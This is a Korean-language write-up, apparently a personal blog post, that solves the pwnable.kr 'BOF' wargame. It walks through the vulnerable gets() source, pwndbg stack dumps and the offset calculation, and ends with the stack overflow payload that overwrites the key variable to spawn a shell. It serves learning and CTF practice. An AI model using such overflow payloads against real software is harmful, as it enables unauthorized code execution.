



+++
title = '[pwnable.kr] - BOF'
date = 2026-07-11T02:42:00+09:00
draft = false

categories = ["pwnable", "pwn"]
tags = ["pwnable.kr", "pwn", "BOF", "Buffer Overflow", "Stack", "gets", "pwndbg", "write-up"]
description = "pwnable.kr BOF 풀이 — gets()의 길이 미검증을 이용해 overflowme[32] 버퍼를 넘겨 스택 상위의 key 변수를 0xcafebabe로 덮는 스택 버퍼 오버플로우. pwndbg로 스택 레이아웃을 직접 관찰하며 오프셋 52를 계산하고 페이로드를 구성한다."
+++

# pwnable.kr - BOF

> 나의 첫 pwnable write-up이다. 웹/시스템 침투에서 다뤄온 취약점과 달리, pwn은 **메모리 레이아웃을 직접 눈으로 확인하고 조작**하는 영역이라 접근법이 다르다. 이 글에서는 디버거로 스택을 관찰하며 오버플로우가 실제로 어떤 메모리를 덮는지 단계별로 따라간다.

## 요약

- `gets()`는 입력값의 길이를 검증하지 않는 취약한 함수다.
- `overflowme[32]` 배열의 크기를 초과하는 입력을 전달해 **버퍼 오버플로우(BOF)**를 일으키고, 스택 상위에 위치한 `key` 변수의 값을 원하는 값으로 변조할 수 있다.

---

## 배경 지식

### 스택 버퍼 오버플로우 (Stack Buffer Overflow)

지역 변수(배열)는 함수의 **스택 프레임** 안에 잡힌다. 스택은 높은 주소에서 낮은 주소로 자라지만, `gets()`나 `strcpy()` 같은 함수는 버퍼에 값을 **낮은 주소 → 높은 주소 방향**으로 순차적으로 쓴다.

즉 배열 크기를 넘겨서 입력하면, 넘친 데이터가 **배열보다 높은 주소에 있는 다른 데이터(다른 지역변수, saved EBP, return address 등)를 덮어쓴다.** 이번 문제에서는 넘친 입력이 함수 인자인 `key`를 덮는다.

### 왜 `gets()`가 위험한가

```c
char *gets(char *s);
```

`gets()`는 **개행(`\n`)이 나올 때까지 무한정 읽는다.** 버퍼 크기를 인자로 받지 않기 때문에, 사용자가 얼마나 긴 입력을 넣든 그대로 버퍼에 쓴다. 32바이트 배열에 100바이트를 넣으면 68바이트가 인접 메모리로 넘친다. 이 설계 결함 때문에 C11 표준에서 `gets()`는 아예 제거됐고, 지금은 `fgets()`를 쓴다.

---

## 코드 분석

아래는 ELF 바이너리의 원본 소스코드다. 매우 간단하다. `main()`에서 `func()`에 `0xdeadbeef`를 인자로 넘기고, `func()` 내부에서 `gets()`로 `overflowme[32]` 배열에 입력을 받은 뒤, `key` 변수가 `0xcafebabe`와 같은지 비교한다. 참이면 현재 프로세스를 실행 중인 유저의 effective GID를 설정한 후 쉘을 실행한다.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                setregid(getegid(), getegid());
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

그렇다면 어떻게 `key` 변수의 값을 변조할 수 있을까? 스택 메모리 레이아웃을 생각해보면 해답이 나온다.



우선 `main()`에서 `func()`를 호출할 때 인자 `0xdeadbeef` 값을 스택에 push한다. 그 후 function prologue 과정(`push ebp` / `mov ebp, esp`)을 거쳐 새로운 스택 프레임을 구성한다.

바로 아래에 있는 `push esi`, `push ebx`는 `main()`에서 사용하던 레지스터 값이 `func()` 내부에서 훼손되지 않도록 스택에 보관하는 역할이다. (esi, ebx는 범용 레지스터라 여러 용도로 쓰인다.)

![gets 호출 직전, overflowme 주소를 lea eax, [ebp-0x2c]로 전달하는 디스어셈블](./images/gets_disasm.png)

여기서 중요하게 관찰할 부분은 `overflowme[]`에 입력을 넣어주는 `gets` 함수 주변부다. `gets`로 실행 흐름을 넘기기 전에, 함수의 파라미터로 입력이 들어갈 주소를 전달하는 부분이 `lea eax, [ebp-0x2c]`다. 실제로 그런지 의심이 들기 때문에 직접 관찰해보기로 했다.

우선 `gets`가 호출되기 전에 breakpoint를 건다. 참고로 위 스크린샷에 보이는 `0x00001234` 같은 주소는 PIE(위치 독립 실행) 때문에 "진짜 주소"가 아니라 파일 기준 오프셋일 뿐이다. 아래와 같이 `func` 함수의 base 주소를 기준으로 offset을 활용해 bp를 건다.

```bash
pwndbg> b *func+54   # push eax가 존재하는 offset
```

그리고 `r` 명령어로 실행한 뒤, 우리가 관심 있는 `ebp-0x2c` 오프셋에 위치한 주소값을 `p` 명령어로 확인해보자.

```bash
pwndbg> p $ebp-0x2c
$1 = (void *) 0xffffdb3c
```

해당 주소는 `overflowme` 배열의 시작 주소로 추정된다. `x` 명령어로 실제 스택 메모리 인근 값을 hex로 확인해보면, 다음과 같이 총 160바이트의 메모리 값을 볼 수 있다.

```
pwndbg> x/40wx 0xffffdb3c
0xffffdb3c:     0xffffdcb8      0x00000000      0x00000000      0x01000000
0xffffdb4c:     0x0000000b      0xf7fc4540      0x00000000      0xf7d954be
0xffffdb5c:     0x51a09600      0xf7fa7000      0xffffdc54      0xffffdb88
0xffffdb6c:     0x565562c5      0xdeadbeef      0xf7fbe66c      0xf7fbeb30
0xffffdb7c:     0x565562b3      0x00000001      0xffffdba0      0xf7ffd020
0xffffdb8c:     0xf7d9e519      0xffffdd8e      0x00000070      0xf7ffd000
0xffffdb9c:     0xf7d9e519      0x00000001      0xffffdc54      0xffffdc5c
0xffffdbac:     0xffffdbc0      0xf7fa7000      0x5655629d      0x00000001
0xffffdbbc:     0xffffdc54      0xf7fa7000      0xffffdc54      0xf7ffcb80
0xffffdbcc:     0xf7ffd020      0xc162b489      0x8d1c5e99      0x00000000
```

아직 `gets` 실행 전이기 때문에 `overflowme` 배열에는 쓰레기값들이 채워져 있는 것을 볼 수 있다. 눈여겨볼 점은 4번째 줄의 `0xdeadbeef`다 — 이게 바로 `main()`이 넘긴 `key` 인자이며, 배열 시작보다 높은 주소에 위치한다. 메모리를 시각화하면 아래와 같다.



이제 스택 레이아웃이 어떻게 구성되는지 이해했다. 실제로 해당 주소가 `overflowme` 배열의 주소가 맞는지 확인함과 동시에, `gets`의 입력으로 배열 크기보다 더 큰 값을 넣고 메모리가 어떻게 변조되는지 직접 확인해보자.

```
# payload: AAAAAAAAA...XXXX

pwndbg> x/40wx 0xffffdb3c
0xffffdb3c:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffdb4c:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffdb5c:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffdb6c:     0x41414141      0x58585858      0xf7fbe600      0xf7fbeb30
0xffffdb7c:     0x565562b3      0x00000001      0xffffdba0      0xf7ffd020
0xffffdb8c:     0xf7d9e519      0xffffdd8a      0x00000070      0xf7ffd000
0xffffdb9c:     0xf7d9e519      0x00000001      0xffffdc54      0xffffdc5c
0xffffdbac:     0xffffdbc0      0xf7fa7000      0x5655629d      0x00000001
0xffffdbbc:     0xffffdc54      0xf7fa7000      0xffffdc54      0xf7ffcb80
0xffffdbcc:     0xf7ffd020      0x44982f7d      0x08e6c56d      0x00000000
```

원래 `func` 호출 시 전달된 `key` 값이 `0xdeadbeef`였어야 하는데, 자세히 보면 `0x58585858`로 바뀌어 있다. 이것은 우리가 전달한 payload 끝부분에 위치한 `X` 문자의 hex 값(`0x58`)이다. 즉 **입력이 배열을 넘어 `key`가 있던 자리까지 도달했다**는 증거다.

### Payload 구성

우리는 `overflowme` 배열의 주소를 알고 있고, cmp 문의 `[ebp+0x8]` 정보를 토대로 `key` 변수가 위치한 주소도 알고 있다. 따라서 버퍼를 얼마나 오버플로우시켜야 exploit할 수 있는지 계산할 수 있다.

`key` 주소 `ebp+0x8` 에서 배열 주소 `ebp-0x2c` 를 빼면:

```
(ebp+0x8) - (ebp-0x2c) = 0x8 + 0x2c = 0x34 = 52
```

배열 시작부터 `key`까지 52바이트다. 따라서 페이로드는 다음과 같이 구성한다.

```
"A" * 52 + "\xbe\xba\xfe\xca" + "\n"
```

- `A * 52` — 배열부터 `key` 직전까지 채우는 패딩
- `\xbe\xba\xfe\xca` — `0xcafebabe`를 리틀 엔디언으로 배치 (x86은 낮은 바이트부터 저장)
- `\n` — `gets`가 입력을 종료하도록 하는 개행



---

## 배운 것들

첫 pwn 문제였지만 핵심은 명확했다. **"입력이 어디까지 도달하는가"를 추측하지 않고 디버거로 직접 확인하는 것**이 pwn의 기본기다. 웹 취약점은 요청/응답이라는 추상 레이어에서 다뤘다면, pwn은 그 아래 메모리 바이트 단위로 내려가서 봐야 한다.

이번에 몸에 익힌 패턴:

- `gets()`, `strcpy()`, `sprintf()` 같은 **길이 미검증 함수**를 보면 즉시 BOF를 의심한다.
- 오프셋은 계산으로 추정하되, `pwndbg`의 `x/wx`로 실제 메모리를 찍어 **눈으로 검증**한다.
- 덮으려는 타깃(여기선 `key`)이 버퍼보다 **높은 주소**에 있어야 오버플로우로 도달 가능하다. 스택이 자라는 방향과 쓰기 방향을 항상 구분한다.
- 값을 메모리에 쓸 때는 **엔디언**을 신경 쓴다. `0xcafebabe` → `\xbe\xba\xfe\xca`.

다음 단계는 이번처럼 지역변수를 덮는 걸 넘어, **return address를 덮어 실행 흐름을 탈취**하는 것이다. 그게 pwn의 본격적인 시작점이다.
